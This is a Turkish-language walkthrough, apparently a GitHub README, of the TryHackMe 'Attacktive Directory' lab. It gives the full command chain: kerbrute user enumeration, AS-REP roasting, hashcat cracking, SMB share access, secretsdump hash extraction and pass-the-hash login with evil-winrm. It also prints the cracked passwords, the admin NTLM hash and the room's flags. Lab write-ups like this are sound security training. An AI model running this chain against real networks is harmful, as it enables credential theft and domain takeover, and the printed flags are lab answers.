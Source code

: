 ## **TryHackMe : ATTACKTIVE DIRECTORY YOL HARITASI** 
![](https://tryhackme.com/room/attacktivedirectory)
THM'den (TryHackMe'den) oğrendiğim bilgileri unutmamak için bir yol haritası oluşturuyorum. Bu yol haritasını izlemeden önce kerbrute programını bilgisayarınıza indiriniz. [Buradan wget kullanarak bilgisayarınıza indirebilirsiniz](https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64) Vakit kaybetmeden başlayalım:

### *Adım 1:*
İlk olarak kali'mizi acalım ve THM'den daha once indirmis oldugumuz vpn'i asagidaki komutla çalistiralim:
`openvpn <vpnismi>.ovpn`
THM'nin makinesini başlatalım.
### *Adım2:*
İmpacket kurulumu için aşağıdaki komutları sırasıyla terminalde çalıştıralım:

`git clone https://github.com/SecureAuthCorp/impacket.git`

`/opt/impacket`

`pip3 install -r /opt/impacket/requirements.txt`

`cd /opt/impacket/ && python3 ./setup.py install`
### *Adım3:*
Temel port taraması ve numaralandırma işlemi için nmap kullanarak başlayacağız. Sonrasında farklı numaralandırma işlemleri için farklı programları kullanacağız. Tüm bu işlemleri yapmadan önce elde ettiğimiz bilgileri kaydetmek için not.txt dosyasını açalım ve nmap taramasını yapalım:

`nmap -v -sS -A -O -T4 <Hedef IP>`

![](https://github.com/hamza37yavuz/AttacktiveD-rectory-YolHaritas-/blob/main/nmap.png)

THM'deki soruların cevaplarını not.txt dosyasını inceleyerek bulabilirsiniz.

139 ve 445 numaralı bağlantı noktaları SMB tarafından kullanılır. SMB'yi numaralandırmak için enum4linux'u kullanacağız.

`enum4linux <hedef ip> -a spookysec.local`

![](https://github.com/hamza37yavuz/AttacktiveD-rectory-YolHaritas-/blob/main/enum4linux.png)

Yukarıdaki resimde kullanıcı grupları listelenmiştir yine bu kullanıcı grupları not.txt'dosyasına kaydedilmiştir.

### *Adım 5:*

Kerberos da dahil olmak üzere bir dizi başka hizmet çalışıyor . Kerberos, Active Directory içindeki bir anahtar kimlik doğrulama hizmetidir. Bu bağlantı noktası açıkken, kullanıcıların parolalarını ve hatta parola spreyini kaba kuvvetle keşfi mümkündür. Bunun için Kerbrute (Ronnie Flathers @ropnop tarafından oluşturulan) adlı bir araç kullanabiliriz !

Bu sistem için hazırlanmış kullanıcı listesi ve parola listesi, kullanıcıların numaralandırılması ve parola kırma süresini kısaltmak için kullanılacaktır. Bu listeleri `wget` kullanarak bilgisayarımıza indirebiliriz.

>[THM'nin kullanıcı listesi](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt)

>[THM'nin şifre listesi](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt)

Kerbrute kullanarak kullanıcı adlarını almak için `userenum` komutunu kullanacağız. Kullanımın nasıl olduğu farklı şekillerde nasıl kullanılabileceğini anlamak için doğru dosya dizinine giderek `./kerbrute -h` komutunu çalıştırabilirsiniz. Kullanıcıları görmek için aşağıdaki komutu terminalimizde çalıştıracağız.

`./kerbrute userenum userlist.txt --dc <hedef ip> -d spookysec.local`

![alt text](https://github.com/hamza37yavuz/Attacktive-Directory-YolHaritasi-/blob/main/kerbrute.png)
### *Adım 5:*
Kullanıcı hesaplarının numaralandırılması tamamlandıktan sonra, ASREPRoasting adlı bir saldırı yöntemi ile Kerberos içindeki bir özelliği kötüye kullanmaya çalışabiliriz. ASReproasting saldırısı bir kullanıcı hesabı "Ön Kimlik Doğrulaması Gerektirmez" ayrıcalığına sahip olduğunda gerçekleşir. Bu, hesabın belirtilen kullanıcı hesabından bir kerberos bileti talep etmeden önce geçerli bir kimlik sağlaması gerekmediği anlamına gelir.
Impacket , ASReproastable hesaplarını Anahtar Dağıtım Merkezinden sorgulamamıza izin verecek “GetNPUsers.py” adlı bir araca sahiptir (impacket/examples/GetNPUsers.py konumunda bulunur). Hesapları sorgulamak için gerekli olan tek şey, daha önce Kerbrute aracılığıyla sıraladığımız hesaplar arasından bir hesap seçmek ve bilet almak için deneme yapmaktır. 4. Adımda elde ettiğimiz listedeki kullanıcı adlarını burada kullanacağız.
Bunun için ilk olarak `/opt/impacket/examples` dizinine gitmeliyiz. Bu işlemi yaptıktan sonra getNPUsers.py dosyasını aşağıdaki gibi çalıştırarak şifre hash'ini (bileti) almaya çalışacağız.

`python GetNPUsers.py -dc-ip <hedef ip> spookysec.local/<kullanıcı adı> -no-pass` --> kullanıcı adı yerine svc-admin yazılabilir

![](https://github.com/hamza37yavuz/Attacktive-Directory-YolHaritasi-/blob/main/GetNPUsers.png)

hash'i elde ettik ve not.txt dosyasına kaydettik. Bu hash svc-admin kullanıcısının şifresinin hash'idir. Bu hash'i çözmek için hashcat programını kullanacağız. Hashcat programını çalıştırmak için mod değerine ihtiyacımız var bu mod değerini elde etmek için [bu siteye bakabilirsiniz.](https://hashcat.net/wiki/doku.php?id=example_hashes)
hashcat komutunu çalıştırmak için elde ettiğimiz hash'i bir txt'ye yapıştırmıştık. Aşağıdaki şekilde yazarak şifreyi elde edebiliriz.

`hashcat -m 18200 hashCode.txt passwordlist.txt`

![](https://github.com/hamza37yavuz/Attacktive-Directory-YolHaritasi-/blob/main/hashcat.jpeg)

Bunun sonucunda svc-admin'in parolası management2005 olarak bulmuş oluyoruz.

### *Adım 6:*
Bir kullanıcının hesap kimlik bilgileriyle artık etki alanı içinde önemli ölçüde daha fazla erişime sahibiz. Artık paylaşımları numaralandırma konusunda daha derinlere inebiliriz.
Uzak SMB paylaşımlarını eşlemek için hangi smbclient programını kullanabiliriz. Bu program yardımıylauzak paylaşımları bulacağız ve listeleyeceğiz. Aşağıdaki komutu çalıştırarak listeyi görüntüleyelim.

`smbclient -L <hedef ip> -U svc-admin`

![](https://github.com/hamza37yavuz/Attacktive-Directory-YolHaritasi-/blob/main/smbclient.png)

backup paylaşımına svc-admin olarak erişmek için aşağıdaki komutu çalıştırabiliriz:

`smbclient \\\\<hedef ip>\\backup -U svc-admin`

![](https://github.com/hamza37yavuz/Attacktive-Directory-YolHaritasi-/blob/main/backup.png)

burada bulduğumuz şifrelenmiş bir parola olabileceğini düşünüyoruz. Şifrelenme tekniğine dikkatli bakıldığında base64'e benzediği görülebilir. bu şifrelenmiş parolayı çözmek için [bu linkten yararlanıyoruz.](https://www.base64decode.org/) Bulduğumuz parolayı ve şifrelenmiş halini not.txt dosyamıza kaydediyoruz.
### *Adım 7:*
Artık yeni kullanıcı hesabı kimlik bilgilerimiz olduğuna göre, sistemde eskisinden daha fazla ayrıcalığa sahip olabiliriz. Hesabın kullanıcı adı “backup” yani yedekleme bizi düşündürüyor.

Bu hesap Domain Denetleyicisi için bir yedek hesaptır. Bu hesabın tüm Active Directory değişikliklerinin bu kullanıcı hesabıyla eşitlenmesine izin veren benzersiz bir izni vardır. Buna parola hash'leri de dahildir.

Bunu bilerek, Impacket içinde “secretsdump.py” adlı başka bir araç kullanabiliriz. Bu, bu kullanıcı hesabının (backup) sunduğu tüm parola hash'lerini almamıza izin verecektir. Bunu kullanarak, Active Directory Domain Alanı üzerinde etkin bir şekilde tam kontrole sahip olacağız.

Bu dosya benim bilgisayarımda `/usr/share/doc/python3-impacket/examples` dizininde bulunuyor. Şu komutla diğer parola hash'lerine ulaşabiliriz.

`python secretsdump.py -just-dc backup@10.10.36.93`

![](https://github.com/hamza37yavuz/Attacktive-Directory-YolHaritasi-/blob/main/secretsdump.png)

Sonuçları not.txt dosyama kaydediyoruz ve bu hash'lerden admine ait olanı kullanarak admin kullanıcı hesabına nasıl gireceğimizi düşünüyoruz.

Admin kullanıcısının NTLM hash'i 0e0363213e37b94221497260b0bcb4fc olarak buluyoruz. Her iki nokta arası başka bir hash'i ifade ettiğini [bu linkten bakarak öğrenebilirsiniz.](https://security.stackexchange.com/questions/161889/understanding-windows-local-password-hashes-ntlm)
### *Adım 8:*
Hash yardımıyla admin girişi yapabilmek için evil-winrm programını kullanacağız. Bu programı aşağıdaki komutla indirebiliriz:

`apt install evil-winrm`

İndirdikten sonra şu komutu çalıştırarak admin paneline bağlanabiliriz.

`evil-winrm -i 10.10.36.93 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc`

![](https://github.com/hamza37yavuz/Attacktive-Directory-YolHaritasi-/blob/main/admin.png)

Burada ilk ve en önemli bayrağımızı bulmuş olduk (Admin)-> `TryHackMe{4ctiveD1rectoryM4st3r}`
Bunu da not.txt dosyamız not alıyoruz ve admin panelinden diğer kullanıcılara erişerek onların içerisindeki bayrakları bulmaya devam ediyoruz.

 `(svc-admin)->TryHackMe{K3rb3r0s_Pr3_4uth}`
 
 `(backup)->TryHackMe{B4ckM3UpSc0tty!}`
 
 Bu şekilde tüm bayrakları bulduk ve görevi bitirdik.
 
 Okuduğunuz için teşekkürler :)
